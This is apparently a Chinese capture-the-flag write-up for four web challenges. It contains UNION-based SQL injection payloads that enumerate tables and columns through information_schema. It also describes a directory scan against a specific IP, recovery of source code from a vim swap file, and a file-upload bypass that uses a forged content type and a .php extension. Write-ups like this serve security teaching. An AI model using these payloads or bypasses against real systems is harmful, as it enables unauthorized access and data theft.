





## web1

抓包，改成want=flag就可以拿到flag。




## web2

f12看到tree：



读nginx error log得到完整路径



利用绝对路径来绕过读flag即可。




## web3

以下payload都需要base64编码

```bash
#测试是数字型注入
-1 || 1=1
#测试有两列
-1 union select 1,2
#获取表名
-1 union select group_concat(table_name) from information_schema.tables where table_schema=database()
#获取列明
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'
#读取flag
-1 union select 1,value from flag
```


## web4

拿dirsearch.py扫目录得到`.index.php.swp`

```bash
python3.10 dirsearch.py -u http://222.186.168.238:30007/ -e '*'

[11:26:31] 200 -   20KB - /.index.php.swp
```

拿vim读取：

```bash
vim -r .index.php.swp

```


首先拿`image/jpeg`绕过，然后上传一个正常的png文件，后缀改成.php，将filename md5后拼接上.php就可以得到flag。



http://222.186.168.238:30007/f3b94e88bd1bd325af6f62828c8785dd.php